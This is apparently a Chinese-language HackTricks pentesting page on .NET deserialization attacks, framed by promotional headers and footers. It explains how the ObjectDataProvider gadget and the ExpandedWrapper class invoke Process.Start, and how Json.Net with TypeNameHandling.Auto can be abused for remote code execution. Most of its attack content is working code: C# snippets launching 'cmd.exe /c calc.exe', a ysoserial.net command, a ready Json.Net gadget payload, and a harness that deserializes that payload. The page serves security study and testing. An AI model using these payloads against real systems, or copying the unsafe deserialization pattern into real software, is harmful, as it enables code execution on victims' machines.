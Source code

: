 # 基本 .Net 反序列化（ObjectDataProvider gadget、ExpandedWrapper 和 Json.Net）

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> - <a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 您在 **网络安全公司** 工作吗？ 想要在 HackTricks 中看到您的 **公司广告**？ 或者想要访问 **PEASS 的最新版本或下载 HackTricks 的 PDF**？ 请查看 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏品 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) **Discord 群组**](https://discord.gg/hRep4RUj7f) 或 **电报群组** 或 **关注** 我的 **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **通过向 [hacktricks 仓库](https://github.com/carlospolop/hacktricks) 和 [hacktricks-cloud 仓库](https://github.com/carlospolop/hacktricks-cloud) 提交 PR 来分享您的黑客技巧**。

</details>

本文致力于**理解如何利用 ObjectDataProvider gadget 来获取 RCE**，以及如何使用 Serialization 库 **Json.Net 和 xmlSerializer** 来滥用该 gadget。

## ObjectDataProvider Gadget

根据文档：_ObjectDataProvider 类包装并创建一个可用作绑定源的对象。_\
是的，这是一个奇怪的解释，所以让我们看看这个类有什么有趣的地方：这个类允许**包装任意对象**，使用 _**MethodParameters**_ 来**设置任意参数**，然后**使用 MethodName 调用声明的任意对象的任意函数**。\
因此，这个任意**对象**将在**反序列化**时**执行**一个带有**参数的函数**。

### **这是如何可能的**

在 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF` 中的 **PresentationFramework.dll** 中找到的 **System.Windows.Data** 命名空间是 ObjectDataProvider 的定义和实现位置。

使用 [**dnSpy**](https://github.com/0xd4d/dnSpy) 您可以**检查我们感兴趣的类的代码**。在下面的图像中，我们看到了 **PresentationFramework.dll --> System.Windows.Data --> ObjectDataProvider --> Method name** 的代码。

![](<../../.gitbook/assets/image (299).png>)

当设置 `MethodName` 时，可以看到调用了 `base.Refresh()`，让我们看看它的功能：

![](<../../.gitbook/assets/image (300).png>)

好的，让我们继续看 `this.BeginQuery()` 做了什么。`BeginQuery` 被 `ObjectDataProvider` 覆盖，这是它的功能：

![](<../../.gitbook/assets/image (301).png>)

请注意，在代码的结尾处调用了 `this.QueryWorke(null)`。让我们看看它执行了什么：

![](<../../.gitbook/assets/image (302) (1).png>)

请注意，这不是函数 `QueryWorker` 的完整代码，但显示了其中的有趣部分：代码**调用了 `this.InvokeMethodOnInstance(out ex);`** 这是设置的**方法被调用**的地方。

如果您想检查只设置 _**MethodName**_ 就会被执行的情况，可以运行此代码：
```java
using System.Windows.Data;
using System.Diagnostics;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ObjectDataProvider myODP = new ObjectDataProvider();
myODP.ObjectType = typeof(Process);
myODP.MethodParameters.Add("cmd.exe");
myODP.MethodParameters.Add("/c calc.exe");
myODP.MethodName = "Start";
}
}
}
```
请注意，您需要在加载`System.Windows.Data`时添加参考_C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll_。

## ExpandedWrapper

使用先前的漏洞利用，会出现一种情况，即**对象**将被**反序列化为**一个_**ObjectDataProvider**_实例（例如在DotNetNuke漏洞中，使用XmlSerializer，对象是使用`GetType`进行反序列化的）。然后，将**不知道**包装在_ObjectDataProvider_实例中的对象类型（例如`Process`）。您可以在[此处查找有关DotNetNuke漏洞的更多信息](https://translate.google.com/translate?hl=en\&sl=auto\&tl=en\&u=https%3A%2F%2Fpaper.seebug.org%2F365%2F\&sandbox=1)。

这个类允许**指定**封装在给定实例中的对象的对象类型。因此，这个类可以用来将源对象（_ObjectDataProvider_）封装到一个新的对象类型中，并提供我们需要的属性（_ObjectDataProvider.MethodName_和_ObjectDataProvider.MethodParameters_）。\
这对于前面提到的情况非常有用，因为我们将能够**在**一个**ExpandedWrapper**_实例中**包装_ObjectDataProvider_，**当对此类进行反序列化时**，将**创建**将**执行**_MethodName_中指定的**函数**的_ObjectDataProvider_对象。

您可以使用以下代码检查此包装器：
```java
using System.Windows.Data;
using System.Diagnostics;
using System.Data.Services.Internal;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
myExpWrap.ProjectedProperty0.ObjectInstance = new Process();
myExpWrap.ProjectedProperty0.MethodParameters.Add("cmd.exe");
myExpWrap.ProjectedProperty0.MethodParameters.Add("/c calc.exe");
myExpWrap.ProjectedProperty0.MethodName = "Start";
}
}
}
```
## Json.Net

在[官方网页](https://www.newtonsoft.com/json)中指出，该库允许使用Json.NET强大的JSON序列化程序**对任何.NET对象进行序列化和反序列化**。因此，如果我们能**反序列化ObjectDataProvider gadget**，我们就可以通过反序列化一个对象来引发**RCE**。

### Json.Net示例

首先让我们看一个使用该库**序列化/反序列化**对象的示例：
```java
using System;
using Newtonsoft.Json;
using System.Diagnostics;
using System.Collections.Generic;

namespace DeserializationTests
{
public class Account
{
public string Email { get; set; }
public bool Active { get; set; }
public DateTime CreatedDate { get; set; }
public IList<string> Roles { get; set; }
}
class Program
{
static void Main(string[] args)
{
Account account = new Account
{
Email = "james@example.com",
Active = true,
CreatedDate = new DateTime(2013, 1, 20, 0, 0, 0, DateTimeKind.Utc),
Roles = new List<string>
{
"User",
"Admin"
}
};
//Serialize the object and print it
string json = JsonConvert.SerializeObject(account);
Console.WriteLine(json);
//{"Email":"james@example.com","Active":true,"CreatedDate":"2013-01-20T00:00:00Z","Roles":["User","Admin"]}

//Deserialize it
Account desaccount = JsonConvert.DeserializeObject<Account>(json);
Console.WriteLine(desaccount.Email);
}
}
}
```
### 滥用 Json.Net

使用 [ysoserial.net](https://github.com/pwntester/ysoserial.net) 我创建了漏洞利用：
```java
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "calc.exe"
{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
在这段代码中，你可以**测试漏洞**，只需运行它，你会看到计算器被执行：
```java
using System;
using System.Text;
using Newtonsoft.Json;

namespace DeserializationTests
{
class Program
{
static void Main(string[] args)
{
//Declare exploit
string userdata = @"{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}";
//Exploit to base64
string userdata_b64 = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(userdata));

//Get data from base64
byte[] userdata_nob64 = Convert.FromBase64String(userdata_b64);
//Deserialize data
string userdata_decoded = Encoding.UTF8.GetString(userdata_nob64);
object obj = JsonConvert.DeserializeObject<object>(userdata_decoded, new JsonSerializerSettings
{
TypeNameHandling = TypeNameHandling.Auto
});
}
}
}
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 你在**网络安全公司**工作吗？想要在HackTricks中看到你的**公司广告**？或者想要访问**PEASS的最新版本或下载HackTricks的PDF**？查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[NFTs收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS & HackTricks周边**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **通过向[hacktricks repo](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧**。

</details>
